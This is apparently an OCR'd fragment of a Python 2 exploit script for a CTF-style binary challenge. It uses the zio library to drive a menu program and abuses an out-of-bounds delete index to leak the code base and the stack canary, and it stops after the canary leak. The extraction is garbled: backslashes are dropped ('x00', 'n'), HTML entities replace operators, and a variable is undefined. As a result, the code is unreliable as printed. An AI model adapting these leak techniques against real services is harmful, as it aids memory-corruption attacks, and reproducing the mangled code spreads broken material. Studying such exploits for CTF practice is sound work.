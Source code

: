```
      io.read_until('something:')
      io.writeline(some)
 
def show(io,index):
      io.writeline('4')
      io.read_until('show')
      io.writeline(str(index))
 
def delete(io,index):
      io.writeline('2')
      io.read_until(cs7)
      io.writeline(str(index))
 
def edit(io,index,data):
      io.writeline('3')
      io.read_until('edit:')
      io.writeline(str(index))
      io.read_until('something')
      io.writeline(data)
 
def interact(io):
      def run_recv():
          while True:
            try:
                output =   io.read_until_timeout(timeout=1)
                # print output
            except:
                return
 
      t1 = Thread(target=run_recv)
      t1.start()
      while True:
          d = raw_input()
          if d != '':
            io.writeline(d)
 
 
def exp(target):
      io = zio(target, timeout=10000, print_read=COLORED(RAW, 'red'), 
             print_write=COLORED(RAW,   'green'))
 
      add1(io, 3, 'bbbb', 100, 'ccccccccc')
      fake_index = (0x2031a0 - 0x203180)/8
      delete(io, 0)
      delete(io, fake_index)
      io.read_until('delete 0')
      show(io, 0)
      io.read_until('s1-&gt;')
      data = io.read_until(' ')[:-1]
      code_base = l64(data.ljust(8, 'x00')) - 0x1040
      print hex(code_base)
 
      canary_addr = code_base + 0x2031c0 + 1
      add2(io, 2, 'aaaa', str(canary_addr&amp;0xffffffff),   str(canary_addr&gt;&gt;32), 'bbbbbbbb')
 
      delete(io, 1)
      delete(io, fake_index + 1)
      io.read_until('delete 1')
      show(io, 1)
      io.read_until("fake show!n")
      cookies = l64(io.read_until('n')[:-1].ljust(8, 'x00')) &lt;&lt; 8
      print 'cookie', hex(cookies)
```